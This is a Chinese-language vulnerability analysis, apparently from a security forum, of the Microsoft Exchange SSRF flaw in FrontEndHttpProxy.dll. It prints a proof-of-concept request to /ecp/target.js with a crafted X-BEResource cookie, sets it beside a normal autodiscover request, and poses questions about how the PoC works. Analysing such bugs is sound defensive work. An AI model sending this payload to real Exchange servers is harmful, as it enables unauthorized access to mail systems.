 ```http
POST /ecp/target.js HTTP/1.1
Host: localhost
Connection: close
Cookie: X-BEResource=[name]@win-v2jneuvoljv.test.com:443/autodiscover/autodiscover.xml?#~1941962753
Content-Type: text/xml
Content-Length: 337

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
    <EMailAddress>Administrator@test.com</EMailAddress>
    <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

正常的通过autodiscover读取配置信息的请求包。

```http
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: 192.168.1.1
Content-Length: 351
Authorization: NTLM TlRMTVNTUAADAAAAGAAYAHYAAACuAK4AjgAAABYAFgBAAAAACgAKAFYAAAAWABYAYAAAAAAAAAA8AQAABQKIoDEAOQAyAC4AMQA4ADgALgAxAC4AMQB0AGUAcwB0ADEAMQA5ADIALgAxADYAOAAuADEALgAxABlZOdtFpFcfJQY7ysotO0RJVlczdGVrae1Bq6PIhSQWZ5F4VJTTyL8BAQAAAAAAAOiYz4Q0XtYBSVZXM3Rla2kAAAAAAgAIAFQARQBTAFQAAQAGAEQAQwAxAAQAEABAAGUAcwB0AC5AYwBvAG0AAwAYAGQAYwAxAC5AdABlAHMAdAAuAGMAbwBtAAUAEAB0AGUAcwB0AC4AYwBvAG0ABwAIAOiYz3Q0XtYBCQAQAGMAaQBmAHMALwBEAEMAMQAAAAAAAAAAAA==
Content-type: text/xml
X-Anchormailbox: test1@test.com
X-Mapihttpcapability: 1
Accept-Encoding: gzip

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
    <EMailAddress>Administrator@test.com</EMailAddress>
    <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

poc中的几个问题

- 关于`/ecp/target.js`路由的问题，`target.js`是否是必须的。
- cookie中的`X-BEResource`字段是干什么用的，
- `X-BEResource`字段的值为何构造成了`[name]@win-v2jneuvoljv.test.com:443/autodiscover/autodiscover.xml?#~1941962753`这种形式。

漏洞存在于Microsoft.Exchange.FrontEndHttpProxy.dll中：

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-07e1f93465cb6f74567e3d1b5a2c1979703c8092.png)
